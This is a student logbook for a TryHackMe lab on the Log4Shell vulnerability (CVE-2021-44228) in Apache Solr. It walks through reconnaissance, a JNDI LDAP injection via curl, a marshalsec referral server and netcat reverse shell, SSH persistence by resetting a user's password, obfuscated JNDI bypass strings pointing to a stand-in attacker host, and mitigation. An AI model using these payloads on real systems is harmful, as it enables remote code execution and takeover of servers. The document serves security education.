

# Logbook for Lab 05 - TryHackMe: Log4j

## Purpose

The purpose of this lab was to understand and analyze [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228), a critical vulnerability in the `log4j` library that enables remote code execution. We explore the attack's impact, learnt how to exploit it, and investigated methods to detect and mitigate its risks, highlighting the severity and widespread implications of Log4Shell in real-world scenarios.

## Task 1 - CVE-2021-44228 Introduction

We began the lab by deploying the target virtual machine using the Start Machine button. Next, we launched the AttackBox by clicking the Start AttackBox button at the top of the TryHackMe page.


## Task 2 - Reconnaissance

In this task, we began by conducting reconnaissance to identify the open ports and services running on the target machine. Using the nmap command-line tool, we first performed a standard scan to detect accessible ports with the following command:

```sh
$ nmap -v MACHINE_IP
```

The result was the following:


This revealed several open ports, but to ensure we captured all possible services, we executed a more detailed scan that included all 65,535 ports:

```sh
$ nmap -v -p- MACHINE_IP | grep 8983
```


From the results of the full port scan, we identified that `Apache Solr` was running on port `8983`. This information provided a key point of entry for further exploration of the vulnerable service.

## Task 3 - Discovery

In this task, we explored the Apache Solr interface at `http://10.10.182.193:8983` to understand its functionality and identify indicators of the `log4j` vulnerability. We examined the information displayed on the main page:


We found the `-Dsolr.log.dir` argument, which specifies the directory used for Solr's logging activity. The -Dsolr.log.dir argument was set to `/var/solr/logs` as shown below:


Next, we downloaded the attached files and reviewed the logs to analyze application activity. One log file contained numerous INFO entries with repeated requests to a specific URL endpoint: `solr.log`. The repeated URL endpoint displayed in the log entries was identified as `/admin/cores`.

While inspecting the log entries, we identified the field name `User-Agent` that reflects a user-controllable input, which can be exploited for injection:


These findings facilitate exploiting the log4j vulnerability within Apache Solr in the next phases.

## Task 4 - Proof of Concept

To demonstrate the vulnerability and test for exploitation, as a Proof of Concept, we followed some steps in this task. 

We identified our AttackBox IP address to use as the `ATTACKERCONTROLLEDHOST` in the JNDI payload. The command used was:

```sh
$ ip addr show
```

We found that our address was: `10.9.244.181`:


Then, we prepared a listener on port 9999 to capture the connection initiated by the target machine. The command used was:

```sh
$ nc -lnvp 9999
```

Using the `curl` command, we sent the payload to the vulnerable endpoint with the following command:

```sh
curl 'http://10.10.182.193:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.244.181:9999\}'
```

On the Netcat listener, we confirmed receiving a connection from the target machine, indicating that the payload was executed, and the vulnerability was exploited:




## Task 5 - Exploitation

In the previous task, by viewing the connection in the `netcat` listener, the target was found to be vulnerable. But, it made an LDAP request, so what the listener saw were indecipherable characters. The task is to build a way to respond with a real LDAP handler.
To carry out this task, we used an open-source and public utility to create an “LDAP Referral Server”.
This makes it possible to redirect the victim's initial request to another server, where there will be a payload that will later execute code on the target.
Here's a brief explanation of how it will work:
- `${jndi:ldap://attackerserver:1389/Resource}` - reaches the LDAP reference server created
- The LDAP reference server sends the request to a secondary server `http://attackerserver/resource`
- The victim retrieves and runs the code in the `http://attackerserver/resource`

In other words, an HTTP server had to be created for this task.

### Steps of the task
First of all, it was necessary to obtain the LDPAP Referral Server through the `marshalsec` utility.

Once marshalsec has been installed, it was possible to start the LDAP referral server to direct connections to the secondary HTTP server. The command to start the LDAP server is as follows: `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.244.181:8000/#Exploit"`


The second step was to open a new terminal (since LDAP is waiting) to prepare the final payload and the secondary HTTP server
The log4j vulnerability will allow arbitrary code to be executed. The script that has been created will allow system commands to be executed, in this case a reverse-shell will be retrieved in order to gain control over the victim's machine.
Next is the payload code:


Once the payload had been created and compiled, it was hosted by creating a temporary HTTP server (as mentioned above).


With everything else ready for the attack (payload, HTTP server and the LDAP referral server), a netcat listener was then set up to pick up the reverse shell in another new terminal window. 
Then the exploit was activated and fired off the JNDI syntax. The following command was executed: `curl "http:10.10.182.193:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.244.181:1393/Exploit\}"`


## Task 6 - Persistence

Once the reverse shell has been launched, it is possible to perform any action.
Previously, it was found with the `nmap` scan that SSH (port 22) was open on the machine. At the time, no user or password was known, so no attempt was made against the protocol. However, the previous task gave access to execute code as a user, potentially adding private keys or changing passwords (which is the purpose of this task). 

The first step was to run the `whoami` command to verify the user being used in the reverse-shell.


Then checked the superuser permissions. To be more convenient, the user should have `sudo` privileges without the need to enter a password.


To ensure persistence and access to the machine via SSH, we have momentarily become root and changed the password of the solr user (in this case, `1234`). This way, we could log in via SSH when necessary.


In another terminal, tried to SSH into the machine with his new credentials.


## Task 7 - Detection

The aim of this task is to explore the detection of vulnerabilities associated with log4j.
In this way, the solar logs were explored via the SSH connection.


## Task 8 - Bypasses

The JNDI payload presented in this lab is the standard and “typical” syntax for carrying out this type of attack.
Since this attack uses log4j, the payload can access all the resources that the package makes available. In other words, the attacker can use any kind of trick to hide, mask or obfuscate the payload.
There are an unlimited number of ways to infiltrate the syntax described. This task served to familiarize us with and explore the syntax.
The following are some of the examples provided for bypassing:

```bash
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

## Task 9 - Mitigation

In this task the focus was on possible mitigations. Several options were explored and are described below.
The option explored was to manually modify the solr.in.sh file with a specific syntax.
We started by checking where the file in question was on the filesystem of the victim's machine.


Next, we change the configuration of this file according to the Security page of the Apache Solr website, which states that you must add a specific syntax to the `solr.in.sh` file.


This process can vary depending on the installation, so the service had to be restarted.


To check that the fix was made, we started another netcat listener and activated the temporary LDAP reference server and the HTTP server. 
We run the same curl command as in Task 5. 
We verified that no request was made to the temporary LDAP server, and therefore no request was made to its HTTP server and the reverse shell was not launched, so the attack was prevented.


## Conclusion


As the image above shows, we successfully completed the lab. In these 9 tasks we explored the **log4j** vulnerability. From reconnaissance and discovery to proof-of-concept execution and post-exploitation persistence. We learned how to create payloads that, by leveraging JNDI injection, could cause remote code execution. Finally, we explored some mitigation techniques, like changing config files to block exploitation attempts. However, these techniques proved to not be very effective as there are a number of ways to craft an effective payload, making this method ineffective. The most effective solution is to ensure all services are patched and up-to-date. This lab reinforces the importance of proactive security and keeping all services in use updated. 